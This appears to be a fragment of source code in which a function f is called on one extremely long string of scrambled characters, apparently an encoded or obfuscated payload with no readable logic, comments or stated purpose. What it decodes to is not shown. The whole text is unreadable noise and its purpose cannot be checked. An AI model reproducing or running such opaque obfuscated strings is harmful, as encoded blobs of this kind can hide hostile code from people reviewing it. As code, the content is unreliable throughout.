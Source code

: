 o=f(e,"TgRx29pl_V;uWQ<h_WpW;RQ_g*lgl;uc<pg;ghpgVlWVXRhhR;pZWu)p29p<;R<VQ_2Q_6uu<<<l9Q_;WhW}h_xzplV;Q2J92Fl/<RgR9W2pWRh<R<p9_WW;W/h;VWQpUpxWlRgu9R_pux<<gQ<<Rl9__<W2h_hWRWp<VW&_x<l2;;<&gp2WVph_hnxg9;V{Wph;<=xull;uQ<<;2VlR;V<Vg_2QuWh9Rp9WVRWp;WKlx_lVQ_gh2Rl_;<<RW;g;p2l2Q8?8xl9<VWu;+Vx;lQ;R<9gW2m_g<_R 9R__u<p_;xQFhuW<t;x_p<;2Q_uVg292l;uWh9gQ_WWuhpRWpRVplhQ_qpxWl7;9Vlhp9gx;<Wx<9p_WWRhp<Wx_l299WWgxxWRQ;h<_gp2W_0u9;lRppg2VWiC_<upR9lQQ6hx;__;;<Q2<;lu_<<R29_29_WQ2EuxRRx;QQl ;hulQuN<ug<JV__Wx;uM_ppVWW;O9x2R9;;<xWlRglWuW<RR29Q_9l_R;p2V2W;XXx22glV;p<ggQluuL<_R29R__u<hR<_x2lq_9QWhhx_;p{RgF2plWuj;g<uRRpR29Wgh;xxpR9x<G6O2_Ruug<VgW9ll<uRhVR#992lQ2hWxQpl99u_g&2pluVpQ<gRk9lg_2R2pg_<W2h;R<xhlr;;<gg92RlQ;Wg_p__Ru_<<RRxg9l;xWR5;26p_;QQ_%Vg92Dlpup<xgh9l_;W2h9R_pkV9WhZ2x<p<f<2ll_;<<2_<ug<_R_9lR;plV2W;{%x2gRpu;guho;2gl;ulg<9h__u<h2R_gKpv;;_lhg2_lQ;<<lg22R_x<;Rh92_;Wwh2Quxppp;g_V?<2;lQpguugp9plWu<hlgh_<Qxh_R<p2V_lVQ2g2x;lWu9QQWh1Qp<uphVxx9_Vu__x&ppVWQR7_x<92gVR=g_9V_Ru_<<RRyx9<V<W2bpxhpl9Vuu*<2VlW<2g_2<_2u;hRxx9WVRW_hW<p22pVlQ<pgh99xxV9<_Rx9pu<hhR_9<V2W_;_I;xhpQ;pQ;<h2<_g;h<pRV_;W_h2R;poV2l;Q9gg29l___Q_g;2hu2x<g<92_;u<Wx:9xupQ;p;xW<=2lQ;R<<Qu2;_RWx<Qx)9xVWQ!h_xupR;2QVg9xWluul;lgR92___0Q;R7p9VRWhXVtQlx;QVW<h2RlgulQWRxpopWW9hRR<px9;QxhWxxlpp_Ql:;xWl9u;;WRL2;__Wxu;1Qpc_hQ9h;2gl<_;<xgo2W_g<pRR98_puWhdQ;x_9QlgQ;gx2V;2<p5<22l;;<Vh<pRhpgplWRiRRppu;gWWh<29;phpg^2plWu*uh<9xg9fV_W<hpxuppVl;xW<S22RlR;l<xg_2V_luphRR29uV9W_HYV;QHHpxWlR;_Q<g22;_sup<WRR9__<W2<;php_;WQRb_x<lR9Wu<VuR29p_5uW<;Rug9V_Wphuxpp2Qpgu2Dlp;W<-WQR92<_Wu<sSR<glp<WphWx<l;;V<9g;l;ul<2g;9=_2pWuW&p!WplVhQ;Ehp<;;Q_}<22l_9Vuf<lg_pR_hWQRWpuVpWW/Rxpxhl_;qQVg<99_VuphgR4_WWuhpRWpRVp_pW;g9x;2<ud<9gx2W_n<Wxh9p_WWRhp<lx<lx;2QQX;x_lVpx<_gQM9_xWNh<QQplV_lhhWxFl99l<g ux<RhVG<qR;_2Wp<<R29;_<_;WuQuglpuV<W<<_R9l<WrQ9Ru_pQghqRp9WVFl_W_gR<h9_u2<2gu2R_,pVhub;9V_;WQhRx9pWVaQgglp<Q9Q_m<22l_pRWy<9gVpRVuQg;hRQ9W;2_lggxup<9hQlgO92_upQW9R99<VQluQlxVlRVWQQgRh9pW;2Q;gW9__lWxh_Qu9lVpWhux2Rp<;;_Wx<lQ;_Q<g22_Rplhu9QuRRpuVQWg/22xV<Q9f_x<l2gQ99l_2<V;u_<<R29_pl_QQVh_28lpV<<xX<xh2ulp;W<lgQ9l__u<h9RWppVWQgpWu<Qp8W2RlpluuQhxR99<9u_puWRlpR;RW_y;2xpupuQ;gEP<pxu<hgg_x2lxQRhxRQx<W<Ylx_p<;2Q_u<n<9*_9<_g<92_;WrhpRWpRQ_Q.>_x;l^;pQ;WRgR9WupihRz9p_WWrughWxup2VV_ug&xQRQup<Vg29xlhu;h9R2gxVgW<);xQl29lQV=_2hl2ug<2gh2<xQW_hVh<VRWhhWxRp_VW;2Q2g<x<_?un<uRp_pQ<hLRp9WVIl;Q_hQggl;ux<VWlM99huR<QRr1u_2WphQRW9<Vx_9hW2plu;W<}E;9xl<;<<RRx9VVW_RRWpVVpWWYRxpg;p<uxV9hp2pV1p<RM9<_;W/hpR;0Wpu;lW<ggh99p;ph=2;_<u2<;R>92xWlhQp<RggplVpQ;<2xhl9_QhRgX92u_hRRR9__<WR;_fRRWp_VWU;29l2;;<dlWuuh2gQ2h_lWRVRWhhWxRp_VWlWQigg2llx;_<eg<_puhhSRp9WVN_gWW,px2;R<RoW2Rl_;WVVhgg;9__;WWh;gRplVuQ<x_ph;RQ_t<2Rx<9W<_xp9R__u<hRQWx2p;Vhu;(Rxpp_VR<VgQ2;_9u2hp^g9__Vuhhpx9x<;lQQgglg;lQ<gl2_l<u2<_QxgW9<_Wh;xVp2V;Q4e2hlxWlh;WQhR_S9ppupvA9;VpW2h;x7p222;pQuglx<lQuVg_9u_Ru_<<Vxuu}VgSp2V;;uyQx9lR__W9R9x;px9E;gu;h1Rp9;9h;gQlnV2Rxhp;;SR12W__uQh2<x2Q_p_pW2gu2g_xV_,_Ru2<Vp;ug2lWuu<pgW9R_pp2uQhxg_p-V2QuOp2RllQWg_2plWuR<pQeg;9;_;;hhRRVV;QR>2x;l}f_99_p;Q_NQg<;R}9p_;VVuhvuR;lR;_QGg92XlglQ;_Q<gp2W_xuVhFRlpgV_WW%2x2pW;(QuL<;WP:gp2W_RupV<<<x_g99x;Qywxup<9VQRg22ul;;W<gQx2;V2WVh;R<9_;gWWhWxvlg;l<;Qfl;uR<2g;9E<VR29xV;pc;tW;#,xpp;2h;pQlc<Rh_luU<<R-pRVEhp2pp}VpWWSqXhx9_g;(<_g<2p_uup<lhxg<92VRWRhhxpp;;RWhP_xWll;;QhgW9R<WR;9p_WWRhpQ2RQpxll<5g92ulWuggp9l_jup<WR>gOpR_WW_hpxlRg_2QRbl2Rlj<Rg<2W_Ru_<WQgxxpVVu;_hW2g;j<9/;2:lp;;V2Q<g<2<pQW2hhR;9QVpWph;2xp<;;Qh22V2;<<2g;2<9Q_xWh<<xppWV2QVK2x92gpW;R<8gx2ul<uR<_R99_V&WRh_Rup2Vux;l_;2Q;gM22R;_9Wgh9R_2x_;Qx>9p2;xW<42x;p<9_;R<RgRx;_RuQ<VR;p_WRylR<p2V;Q;IpxWlR;;<ug22;_Cu2W2<Wxg9pV9W_N9RQlIV_Qhqllp;h<,gp2W_1puu2hpR2VRhVhWxRp_VW_QQl>;hu9<uW<gh99<VlWQ;uRQp>VuW<uVxlpp;<VgkV2Rl_ulVhg_9;VgW1hRRlgV;xQ2uu29ph;RVx>W2ul<uu<xRp2<V9uQuBpRV<WW3Rx_pW2W;<<xgh2p_9WgRUpw_;W hpR;gxpp;gQ2uhg_l;ug<0gR2lup<hRE9p_WW!ughWxpp2QRfWxWlR;_QWWRgW2p_RupRR9__<W2h;xCppu:gR1;9pl2;;<eg2Rx2VV9u2hWxR9;VhW;huHlxRp_;xQVgx22l;ug<_RR9__QR_pQVRW_h<xRgWpp;pQph92W_luR<9g<2<_RWuhpxRplW;imxppW;R<2=<22l;WRx_gW9R__uhh2R;pHVpQW^RxVp<;2Q;g>2plWW;<_g<92_WWbhlRWpRVhW<M2x;lg;pQWgRp_Vpu2<;Rw9p_WWWh_R<lQV;QROpxWlR;WQ<229V_.u_<WR29_VxW2R;xlppV<QRbWx<ll;;gvxR2W_2u_h9R2pxV8hpRQxRp;V<Q;k;2_lp;Wp g_2<_2uWhHRl9WVRwQh<x2p;;gQpkW2Rl;;<<2g;9RVauWhRR_9Wlw;gW<>hxppQ;pQh6<lWuh<pgW9R_pp<u<:_R22<VRQQ&Rxlx;pQ<VRx99ux<_g<92_;W9hpRWpR;;<VN2xulK;lQWgR2_VaW_<;RR9p_<WRh_R<p2VuQ#/VxWlR;_Q<g22;_9up<QRR9u_<W9h;xBl9VWQRB_xhl2;;<sgp2W_Ru_<hR29;VDWph<xRp_V<Q2RV2+lp;W<Rg_2<_2u;x9Rp9WVRWVh<x2p;;uQpAW2Rl;uu<2g;96_2V2uWngRpp9V_Q9hQ2Pp_;hQl2plhu7<pgW9Fxu_2Wph2p,VpWW{Rx_p<;2<<9:2__2uR<_g<9RxRV2WVt9RWpu;lZp2ulC;pQWgsh;22_2u2QxR;p9VLWxhWRWpd;VQ2gq29;;gRg22;_=u2uVhuxgpxVWVVW2h;l_;<<2Qg9Rl<u;<hRp2V_R_g<WR<pR9;;gQVxVp2VxQ_gV2;pxupQhgh9_Vl;_<<xxp&VQQlW_29p<VhQpgp9)uE<Vg;9f_pu;;uhpxz9<WWg_xppW;RQp<9*u9llpu<h2gWpg_WuQWVh2R;p9VuQ9+pxWlx;;<2g;2h<;2592_;WEh2<9RhpR9xWW4lxplV;hQWgV&x_9u_hxRpgg_hu<cp<VpgV;Q&dhhll6uR<Vg_2;lhlRR29<_<W2h;R<g2p<V_Q2%_lpup<cgp2W_ApVuWhlR;g9p<Q{elxpp_VQC;2wlp;W<RR22<_2u;^RVW9WVRW_hhx2p;;r<_Rp2RlV;<<;g;93_puW72R_9<V2WW/rxlpW;R<p1<22l;uo<pgW9R;_Qgh2R;p(VpWWZlx_p<;lQ;gR2plWuR<Wg<_2V<WBh_RWp2V_QV)2p;ll;pQ<gR2Wl<uQ<;9}pQ_WW2h_x_p2;RQIxppQlR;;Q<gu2;_xup<W;r9__<W2hWxLplVWQR2Qx<l2;;<ggp2W_RuW<<R29;VRQghWxRp_VW;9Q<spxh_2uu<hgW9l_phRR<9WVRW_hW<g2xlV;uu_iW9guZ22g;9E_pu;uhBgxlpV;RVhW;KtlVV<<;Ql2pl<uh<VRW2hV_WWh2xl9<;GQ9ggx_llux;xy<9}_2lWQpgWpg_<WuG9};pR;gQQggxpllp<QVghgR9Wu<<<gh9pV;uR.gxRl9V;QQg2x_lV_u<<ggg2_Qup<Qx*RRVgW2hpRhl2ppQ;b22RlQl2WQhpR_pg;:W<<QpR_hh<xlp_V<Q2y_XWxWl<;Wg_2<_2u;h7R<9WVRW_gjpQp;;kQpoQ2Rl_;<hpRh96_luWhpR_9<V2<;SRxppQ;RQV3<2pl;WR<VgW99__Wgh2R;pyVp<_kRxVp<;lQ;ge2plWu;<_g<92_;WCh_RWpR;pW<.2x;lg;pQ<gR2_Wxu2<;Rm9l_WWRh_xVp2V;QAS_2_lR;_Q<gRhu2<_VuW;l=apRVVW_h;RhV<<xM_x<l2;_VRQWgW2WpuWRhQR_9uV2W2h_2gpW;_QQ2Klp;W<Rg_2<_2W<xkR_p2VRW_h<xRgRl2;V<9IW2u_l<pxR9o_puWh:hhR9lgVOQ_{<xplu;pQl<x{<22lhu9<hRS9p_QW2h<x2pVw2xQp<;2Q;f<hV2R_2uRR>pg_;WfhpR;x;pR;lWWMux<lu;x<pX<99lQ<WR99p_WWRhp<lxRpWV;j_phlR;_Q<gRbx2Q_#lgWuRppp_WW<jlRhRg;xQpgg22Rh;QQWR26llhu_<<RQg9_<Qw3lxpp_VQ_hgV2;xguu<9g_nV_RWgh2xg9VVWW2PuxxRpQ_R;2Rl_;<<R<lRV9hVgW;WlhRR_VxW<d